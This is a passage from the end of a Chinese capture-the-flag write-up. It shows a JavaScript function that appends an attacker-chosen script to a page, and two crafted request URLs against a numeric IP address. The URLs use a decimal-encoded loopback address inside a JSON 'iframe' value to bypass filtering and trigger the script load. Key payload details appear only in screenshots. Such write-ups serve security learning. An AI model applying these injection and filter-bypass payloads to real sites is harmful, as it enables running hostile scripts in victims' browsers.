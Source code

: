因为

```
function lls(src) `{`
        var el = document.createElement('script');
        if (el) `{`
            el.setAttribute('type', 'text/javascript');
            el.src = src;
            document.body.appendChild(el);
        `}`
    `}`;
```

这样可以把我们的src添加到`document.body`<br>
即可触发恶意操作<br>
于是构造<br>[![](https://p2.ssl.qhimg.com/t017c9ca7c94a310537.png)](https://p2.ssl.qhimg.com/t017c9ca7c94a310537.png)<br>
尝试

```
http://13.57.104.34/?`{`%22iframe%22:`{`%22value%22:%22http:/\2130706433:23333%22`}``}`
```

发现收到回显<br>[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t0132f2d77fd0d9f6f9.png)<br>
下一步一气呵成<br>
在自己的index.html中写入<br>[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t010ab663f0f40578b6.png)<br>
然后再请求

```
http://13.57.104.34/?`{`%22iframe%22:`{`%22value%22:%22http:/\2130706433%22`}``}`
```

即可收到<br>[![](https://p4.ssl.qhimg.com/t017c5ba9975fe3ce7b.png)](https://p4.ssl.qhimg.com/t017c5ba9975fe3ce7b.png)



## 后记

我还是太年轻了，尽走弯路= =，感谢巨佬的中途carry，让我学到好多知识Orz
